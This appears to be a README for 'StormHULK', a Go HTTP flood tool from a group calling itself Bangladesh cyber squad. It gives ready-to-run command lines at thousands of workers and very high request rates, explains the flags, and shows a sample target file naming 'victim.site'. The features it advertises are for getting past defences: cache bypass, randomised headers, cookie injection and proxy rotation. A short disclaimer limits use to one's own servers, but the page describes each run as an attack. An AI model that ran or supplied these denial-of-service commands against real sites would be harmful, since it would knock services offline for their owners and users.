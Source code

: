                                                                              
                                                                              
                                                                                                    
                                                                              

𝑺𝒕𝒐𝒓𝒎𝒉𝒖𝒍𝒌

       [ ADVANCED VERSION BY PARVEZ ]
        HIGH-POWER HTTP LOAD TOOL

======================================================
> Name       : stormHULK - Advanced Version
> Author     : Bangladesh cyber squad {Parvez hasan}
> Language   : Golang
> Platform   : Linux / Termux / Android / Kali / Windows (WSL)
> Category   : Stress Testing / Load Generation
======================================================

>> DESCRIPTION:

StormHULK (HTTP Unbearable Load King) - Advanced Version is a powerful and optimized HTTP flood tool designed for stress testing websites and servers. It uses multiple techniques like random user-agents, referers, proxy support, and cookie injection to bypass caching and amplify load.

This version includes:
- Multi-threading (custom worker counts)
- Proxy support
- Randomized headers (agents, referers)
- Enhanced control via CLI flags
- Bypass cache & cookie injection
- Verbose logging



Command 1 (Standard):
---------------------
./hulk -targets targets.txt -workers 1000 -duration 150 \
-rate 50000 -random-agents -random-referers -bypass-cache \
-cookies -verbose

Command 2 (Advanced with proxy & GET method):
---------------------------------------------
./hulk -targets targets.txt -workers 2000 -duration 300 \
-rate 100000 -random-agents -random-referers -bypass-cache \
-cookies -method GET -proxy proxy.txt -verbose

>> OPTIONS EXPLAINED:

-targets        : Path to file with list of target URLs
-workers        : Number of concurrent worker threads
-duration       : Attack duration in seconds
-rate           : Requests per second per worker
-random-agents  : Use random User-Agent headers
-random-referers: Use random Referer headers
-bypass-cache   : Add cache-bypassing parameters
-cookies        : Inject random cookies
-method         : HTTP method (default: GET)
-proxy          : Use proxies from file
-verbose        : Enable verbose output

>> EXAMPLES:

Example targets.txt:
---------------------
https://example.com
http://victim.site/page

Example proxy.txt:
---------------------
http://123.45.67.89:8080
socks5://98.76.54.32:1080

>> DISCLAIMER:

This tool is intended **ONLY FOR EDUCATIONAL & STRESS TESTING PURPOSES ON YOUR OWN SERVERS**.
Using it against any system without permission is **illegal**.

> Developer: Parvez
> team; (Bangladesh Cyber Squad)

======================================================
      THANK YOU FOR USING StormHULK ADVANCED TOOL!
======================================================
